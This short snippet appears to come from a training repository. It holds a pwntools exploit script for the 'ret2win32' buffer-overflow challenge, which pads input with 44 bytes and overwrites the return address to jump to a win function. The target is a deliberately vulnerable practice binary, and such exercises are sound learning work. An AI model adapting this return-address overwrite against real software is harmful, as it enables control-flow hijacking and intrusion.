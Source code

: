 # ret2win
  script
  '''
  #!/usr/bin/python3

  from pwn import *

  p = process("./ret2win32")

  junkdata = b"A" * 44
  addr = p32(0x08048645)

  payload = junkdata + addr
  
  p.sendline(payload)
  
  p.interactive()
  '''
